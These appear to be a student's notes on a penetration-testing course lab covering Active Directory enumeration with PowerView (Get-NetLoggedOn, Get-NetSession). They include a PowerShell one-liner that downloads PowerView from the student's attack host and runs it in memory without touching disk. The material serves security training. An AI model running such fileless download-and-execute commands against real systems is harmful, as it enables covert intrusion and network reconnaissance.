




### 21.2.4.1 Exercises
#### 1. Download and use PowerView to perform the same enumeration against the student VM while in the context of the Offsec account.

- Get-NetLoggedOn
  
- Get-NetSession
  

#### 2. Log in to the student VM with the Jeff_Admin account and perform a remote desktop login to the domain controller using the Jeff_Admin account. Next, execute the Get-NetLoggedOn function on the student VM to discover logged-in users on the domain controller while in the context of the Jeff_Admin account.



#### 3. Repeat the enumeration by using the DownloadString method from the System.Net.WebClient class in order to download PowerView from your Kali system and execute it in memory without saving it to the hard disk.

```powershell
iex (New-Object System.Net.WebClient).DownloadString('http://192.168.119.216/PowerView.ps1')
```

I started a new Powershell session to clear out the previous dot-sourcing.

